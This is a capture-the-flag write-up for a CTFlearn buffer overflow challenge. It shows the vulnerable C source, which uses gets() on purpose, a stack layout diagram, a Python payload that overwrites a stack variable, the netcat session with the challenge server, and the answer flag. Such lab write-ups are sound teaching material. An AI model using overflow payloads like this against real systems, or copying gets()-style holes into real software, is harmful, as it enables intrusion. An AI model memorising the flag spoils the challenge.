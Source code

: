 ```yaml
---
custom_edit_url: null
---
```


> Want to learn the hacker's secret? Try to smash this buffer!
> You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already
> `nc thekidofarcrania.com 35235`
> [bof.c](https://ctflearn.com/challenge/download/1010) 

## bof.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
The program sets a buffer of 32 bytes and then padding of 16 bytes.

It then creates two variables `notsecret` and `secret` and sets their value to `0xffffff00` and `0xdeadbeef` respectively.

## Stack
```        
           +---------------------------+
0xffbbf4e8 |  00 00 00 00 00 00 00 00  | < buffer
0xffbbf4f0 |  00 00 00 00 00 00 00 00  |
0xffbbf4f8 |  00 00 00 00 00 00 00 00  |
0xffbbf500 |  00 00 00 00 00 00 00 00  |
           +---------------------------+
0xffbbf508 |  ff ff ff ff ff ff ff ff  | < padding
0xffbbf510 |  ff ff ff ff ff ff ff ff  |
           +-------------+-------------+
0xffbbf518 | ef be ad de | 00 ff ff ff |
           +-------------+-------------+
             ^             ^
             secret        notsecret
```
The program then has four conditional statements:
	1. Executes if the value of `secret` has been set to `0x67616c66` and prints out the flag.
	2. Executes if the value of `notsecret` has been altered.
	3. Executes if the value of `secret` has been altered but not set to `0x667616c66`.
	4. Executes if none of the above conditions are met.
We need 48 bytes to fill the buffer and the padding and then `0x67616c66`.

## Exploit
```
$ python3 -c 'print("a"*48 + "\x66\x6c\x61\x67")'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
```
Note that `0x67616c66` is written in little endian format. 

Let's provide the string as the input.
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 00 00 00 00 00 00 00 00 |
0xfff45060 | 00 00 00 00 00 00 00 00 |
0xfff45068 | 00 00 00 00 00 00 00 00 |
0xfff45070 | 00 00 00 00 00 00 00 00 |
0xfff45078 | ff ff ff ff ff ff ff ff |
0xfff45080 | ff ff ff ff ff ff ff ff |
0xfff45088 | ef be ad de 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 61 61 61 61 61 61 61 61 |
0xfff45060 | 61 61 61 61 61 61 61 61 |
0xfff45068 | 61 61 61 61 61 61 61 61 |
0xfff45070 | 61 61 61 61 61 61 61 61 |
0xfff45078 | 61 61 61 61 61 61 61 61 |
0xfff45080 | 61 61 61 61 61 61 61 61 |
0xfff45088 | 66 6c 61 67 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

## Flag
```
CTFlearn{buffer_0verflows_4re_c00l!}
```

